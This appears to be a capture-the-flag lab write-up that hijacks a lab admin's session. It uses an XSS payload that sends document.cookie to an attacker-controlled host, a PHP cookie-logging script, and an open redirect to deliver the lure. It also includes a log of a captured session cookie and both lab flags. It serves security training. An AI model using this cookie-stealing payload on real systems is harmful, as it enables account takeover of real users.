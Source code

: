 ```yaml
---
sticker: emoji//1f512
---
```

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219131413.png)
# First Question
---
Let's begin by checking the URL:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219135255.png)

Now, let's share:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219140807.png)

If we refresh the page:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219140815.png)

We are now admin user, let's make it public:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219140839.png)

If we go to share, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219142017.png)

We can filter:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219142344.png)

